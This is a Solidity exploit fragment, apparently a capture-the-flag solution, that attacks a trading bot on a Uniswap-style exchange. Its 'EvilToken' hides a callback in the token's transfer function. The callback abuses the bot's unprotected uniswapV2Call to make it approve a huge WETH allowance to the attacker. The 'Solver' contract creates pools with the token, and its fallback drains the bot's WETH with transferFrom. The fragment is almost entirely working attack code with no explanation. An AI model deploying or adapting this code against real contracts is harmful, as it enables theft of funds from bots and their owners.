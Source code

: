 ```solidity
    }

    function transferFrom(address from, address to, uint value) public returns (bool) {
        require(allowance[from][msg.sender] >= value);
        allowance[from][msg.sender] -= value;
        _transfer(from, to, value);
        return true;
    }

    function _transfer(address from, address to, uint value) private {
        require(balanceOf[from] >= value);
        balanceOf[from] -= value;
        balanceOf[to] += value;
        emit Transfer(from, to, value);

        //if (gasleft() < 2000000) {
        if (block.number >= 8) {
            Bot bot = Bot(0x607D86B806E7b2993438E82af2236C786a0Ff780);
            uint balance = IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).balanceOf(address(bot));
            address[] memory addressList = new address[](1);
            bytes[] memory calldataList = new bytes[](1);
            addressList[0] = 0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7;
            calldataList[0] = abi.encodePacked(uint32(0x095ea7b3), uint256(uint160(solver)), uint256(114514 ether));
            bot.uniswapV2Call(address(bot), 0, 0, abi.encode(addressList, calldataList));
        }
    }
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external {
    }
}

contract Solver {
    constructor() payable {
        EvilToken e = new EvilToken(address(this));
        IUniswapV2Factory fac1 = IUniswapV2Factory(0x164e31a6Ac83D5EDaE2139Add30099485D15d138);
        IUniswapV2Factory fac2 = IUniswapV2Factory(0xff2624eb527e4acAb0afE10270B7F6f58483D319);
        IUniswapV2Pair pair1 = IUniswapV2Pair(fac1.createPair(address(e), 0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7));
        IUniswapV2Pair pair2 = IUniswapV2Pair(fac2.createPair(address(e), 0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7));

        uint b = address(this).balance;
        IWETH(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).deposit{value: b}();
        IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).transfer(address(pair1), b / 2);
        IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).transfer(address(pair2), b - b / 2);
        e.transfer(address(pair1), 1 ether);
        e.transfer(address(pair2), 10 ether);
        pair1.mint(address(this));
        pair2.mint(address(this));
    }
    fallback() external payable {
        Bot bot = Bot(0x607D86B806E7b2993438E82af2236C786a0Ff780);
        uint balance = IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).balanceOf(address(bot));
        IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).transferFrom(address(bot), address(this), balance);
    }
}
```
